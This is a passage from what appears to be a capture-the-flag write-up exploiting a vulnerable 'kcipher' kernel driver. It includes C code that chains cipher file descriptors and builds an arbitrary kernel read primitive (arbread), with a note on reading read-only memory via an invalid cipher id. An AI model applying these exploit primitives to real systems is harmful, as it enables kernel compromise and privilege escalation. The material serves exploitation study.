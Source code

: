 ```
    EXIT_ON_ERR(write(cfd[1], &buf, sizeof(buf)) < 0); // does not matter what to write, just link cfd[1]->str := cfd[2]
}
```

I'll just comment on that one. It sets up `cfd[0]->str := cfd[1]`. And `cfd[1]->str := cfd[2]`. So we control `cfd[1]` from `cfd[0]` and `cfd[2]` from `cfd[1]`.

It is important to note that `read()` from `cfd[0]` 0x41-xors the `cfd[1]`. So we need to always make the `read(cfd[0])` 2 times so `cfd[1]` is never invalidated.
But `cfd[1]->byt=cfd[2]->byt=0x00`. So `read` from them is fine and need not to be called twice.



### Arbitrary "read"
To construct arbitrary read we can just set up `kciph->str=desired_addr`, `kciph->size=desired_size`, `kciph->byt=0x00`, `kciph->ciph_id=1`.
The idea is that `cipher_read` will xor the data with 0x00, which won't change it. Result will be submitted to userland, so we can "read".

```
void arbread(uint64_t addr, char* buf, uint64_t size) {
    // requires cfd[1]->str = cfd[2], cfd[1]->byt=0x43
    struct kcipher fake = {
        .ciph_id = 1, // xor
        .byt = 0x00,  // for read: does not change contents
        .size = size,  // size_t
        .str = addr, 
        .lock = 0x0
    };

    xor(&fake, 0x43, sizeof(fake));
    EXIT_ON_ERR(write(cfd[1], &fake, sizeof(fake)) < 0);
    // de-xor
    struct kcipher fake_in_kernel;
    EXIT_ON_ERR(read(cfd[1], &fake_in_kernel, sizeof(fake_in_kernel)) < 0);
    assert(fake_in_kernel.str == addr);
    assert(fake_in_kernel.size == size);
    assert(fake_in_kernel.byt == 0);

    EXIT_ON_ERR(read(cfd[2], buf, size) < 0);
}
```

**P. S.** 

As a side to note we can't say we constructed the arb. "read". It actually is a non-changing "write" because it does xor on data(even if nothing is changed).
And it does matter because we won't be able to "read" from read-only memory sections.

@clubby789 noted that we can construct the **real** arb. read(with the ability to read read-only memory locations) by setting `ciph_id=5` so that 
dispatch validation in `do_encode` returns warning and not touches the memory. It does not raise error and still does `copy_to_user` so we are getting the data.
